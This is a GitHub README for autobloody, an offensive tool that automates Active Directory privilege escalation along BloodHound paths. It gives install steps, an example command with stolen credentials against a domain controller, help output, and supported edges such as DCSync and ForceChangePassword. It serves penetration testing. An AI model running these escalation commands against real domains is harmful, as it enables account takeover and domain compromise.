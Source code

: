# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) autobloody
autobloody is a tool to automatically exploit Active Directory privilege escalation paths shown by BloodHound combining `pathgen` and `autobloody`.

## Description
This tool automates the AD privesc between two AD objects, the source (the one we own) and the target (the one we want) if a privesc path exists in BloodHound database.
The automation is split in two parts in order to be used transparently with tunneling tools such as proxychains:
- `pathgen` to find the optimal path for privesc using bloodhound data and neo4j queries.
- `autobloody` to execute the path found with `pathgen`

autobloody relies on [bloodyAD](https://github.com/CravateRouge/bloodyAD) and supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

## Installation
A python package is available:
```ps1
pip install autobloody
```

Or you can clone the repo:
```ps1
git clone --depth 1 https://github.com/CravateRouge/autobloody
pip install .
```
### Dependencies
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- Neo4j python driver
- Neo4j with the [GDS library](https://neo4j.com/docs/graph-data-science/current/installation/)
- BloodHound
- Python 3

## How to use it
First data must be imported into BloodHound (e.g using SharpHound or BloodHound.py) and Neo4j must be running.

> :warning: **-ds and -dt values are case sensitive**  

Simple usage:
```ps1
pathgen -dp neo4jPass -ds 'OWNED_USER@ATTACK.LOCAL' -dt 'TARGET_USER@ATTACK.LOCAL' && proxychains autobloody.py -d ATTACK -u 'owned_user' -p 'owned_user_pass' --host dc01.attack.local
```

Full help for `pathgen`:
```ps1
[bloodyAD]$ pathgen -h
usage: pathgen [-h] [--dburi DBURI] [-du DBUSER] -dp DBPASSWORD -ds DBSOURCE -dt DBTARGET [-f FILEPATH]

Attack Path Generator

options:
  -h, --help            show this help message and exit
  --dburi DBURI         The host neo4j is running on (default is "bolt://localhost:7687")
  -du DBUSER, --dbuser DBUSER
                        Neo4j username to use (default is "neo4j")
  -dp DBPASSWORD, --dbpassword DBPASSWORD
                        Neo4j password to use
  -ds DBSOURCE, --dbsource DBSOURCE
                        Case sensitive label of the source node (name property in bloodhound)
  -dt DBTARGET, --dbtarget DBTARGET
                        Case sensitive label of the target node (name property in bloodhound)
  -f FILEPATH, --filepath FILEPATH
                        File path for the graph path file (default is "path.json")
```

Full help for `autobloody`:
```ps1
[bloodyAD]$ autobloody -h
usage: autobloody [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s] --host HOST [--path PATH]

Attack Path Executor

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  --path PATH           Filename of the attack path generated with pathgen.py (default is "path.json")
```

## How it works
First `pathgen` generates a privesc path using the Dijkstra's algorithm implemented into the Neo4j's GDS library.
The Dijkstra's algorithm allows to solve the shortest path problem on a weighted graph. By default the edges created by BloodHound don't have weight but a type (e.g MemberOf, WriteOwner). A weight is then added to each edge accordingly to the type of edge and the type of node reached (e.g user,group,domain).

Once a path is generated and stored as a json file, `autobloody` will connect to the DC and execute the path and clean what is reversible (everything except password change).

## Limitations
For now, only the following BloodHound edges are currently supported for automatic exploitation:
- MemberOf
- ForceChangePassword
- AddMembers
- AddSelf
- DCSync
- GetChanges/GetChangesAll
- GenericAll
- WriteDacl
- GenericWrite
- WriteOwner
- Owns
- Contains
- AllExtendedRights